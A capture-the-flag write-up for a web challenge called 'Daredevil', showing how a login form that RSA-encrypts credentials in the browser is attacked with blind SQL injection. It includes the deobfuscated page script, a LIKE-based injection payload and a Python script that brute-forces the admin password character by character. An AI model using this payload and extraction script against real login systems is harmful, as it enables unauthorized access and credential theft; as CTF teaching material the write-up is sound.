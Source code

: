 ### Daredevil

![Daredevil CTFD](../.assets/daredevil.png)

The challenge description made it obvious it was an SQLI challenge. Trying the basic payload makes it clear there's no logging in. 
![Basic Payload](../.assets/daredevil_1.png)

Notably, trying an incorrect username/password returns a different output. Blind SQLI.
![Incorrect creds](../.assets/daredevil_3.png)

The request that was sent out is encrypted similarly to the mystique challenge.
![Request sent](../.assets/daredevil_2.png)

Using an online js deobfuscator tool makes the js source code more readable.

```javascript
// Stripped to important part of code
function setPublicKey() {
    var key = `-----BEGIN PUBLIC KEY-----
  MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAvKY9bxWNNQtoCukVNJuF
  Ap5sxruDlsoglCvKGwV92zke7P514+nFshua5m2FGXW3aLTUwy6Fh2CnH5sIz7EX
  MS3DvZ/VT8yJfRZtbTN8MdzynRrYJt6MofVP3fOjoxGi86rhKUV30tneOJxYT+tz
  izDWIlTL3dqC01gcpGbJTviWNTDyvYkXvV7ybo9krYz5GeU3X49unkyyKJ+IJA51
  2Zg254eb064SIsYLP60rHLoCgh0gws33wiqIFEIBVpMn8+V1cxB8iVLcNl88lWMN
  EgcqK/hKHFBkBCJ0YWit5Zdn19vA+kdC0G7TvpiKeB8wXX3Zcn5+TbCPaJCp2r08
  TwIDAQAB
  -----END PUBLIC KEY-----`;

  var jsEncryptedKey = new JSEncrypt()
  return jsEncryptedKey.setPublicKey(key), jsEncryptedKey
}

function encryptData(encrypt, data) {
  var dataToEncrypt = data;
  var encryptedData = encrypt.encrypt(dataToEncrypt);
  return encryptedData;
}

function sendEncryptedData(encryptedData) {
  var request = new XMLHttpRequest()
  request.open('POST', '/Flag', true)
  request.setRequestHeader(
    'Content-Type',
    'application/x-www-form-urlencoded'
  )
  request.onreadystatechange = function () {
    if (request.readyState === 4 && request.status === 200) {
      var message = document.getElementById('output')
      message.textContent = request.responseText
    }
  }

  request.send('data=' + encodeURIComponent(encryptedData))
}

function login() {
  var publicKey = setPublicKey(),
    username = document.getElementById('username').value,
    password = document.getElementById('password').value,
    credentials = username + ':' + password,
    encryptedData = encryptData(publicKey, credentials)
  sendEncryptedData(encryptedData)
}
```

The password of the admin user can be bruteforced using the like keyword `admin' and password like '%'--` 

Here's a quick python3 script to do that

```python
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_v1_5 as Cipher_PKCS1_v1_5
from base64 import b64decode,b64encode
import requests
import string

flag_chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}_" #chars used in other flags
admin_pass = ""

def set_public_key():
    key = """
    MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAvKY9bxWNNQtoCukVNJuF
    Ap5sxruDlsoglCvKGwV92zke7P514+nFshua5m2FGXW3aLTUwy6Fh2CnH5sIz7EX
    MS3DvZ/VT8yJfRZtbTN8MdzynRrYJt6MofVP3fOjoxGi86rhKUV30tneOJxYT+tz
    izDWIlTL3dqC01gcpGbJTviWNTDyvYkXvV7ybo9krYz5GeU3X49unkyyKJ+IJA51
    2Zg254eb064SIsYLP60rHLoCgh0gws33wiqIFEIBVpMn8+V1cxB8iVLcNl88lWMN
    EgcqK/hKHFBkBCJ0YWit5Zdn19vA+kdC0G7TvpiKeB8wXX3Zcn5+TbCPaJCp2r08
    TwIDAQAB
    """
    keyDER = b64decode(key)
    public_key = RSA.importKey(keyDER)
    cipher = Cipher_PKCS1_v1_5.new(public_key)
    return cipher

# Function to encrypt data
def encrypt_data(cipher, data):
    encrypted_data = cipher.encrypt(data.encode())
    return encrypted_data

# Function to send encrypted data
def send_encrypted_data(encrypted_data):
    response = requests.post(
        url='https://afr1cacyb3rfe5t-daredevil.chals.io/login',  # Chall url
        headers={'Content-Type': 'application/x-www-form-urlencoded'},
        data={'data': b64encode(encrypted_data)}
    )
    if response.status_code == 200:
        return response.text
    else:
        print(f"Request failed with status code: {response.status_code}")
        print(response.text)
        print(admin_pass)
        exit(1)

# Function to handle login
def login(username, password):
    cipher = set_public_key()
    credentials = f"{username}:{password}"
    encrypted_data = encrypt_data(cipher, credentials)
    output = send_encrypted_data(encrypted_data)
    return output

# Example usage
while True:
    for CHAR in flag_chars:
        output = login(f"admin' and password like '{admin_pass}{CHAR}%'--", "password")
        if "Login for" in output:
            admin_pass = admin_pass + CHAR
            print(admin_pass)
            break
```
![flag](../.assets/daredevil_4.png)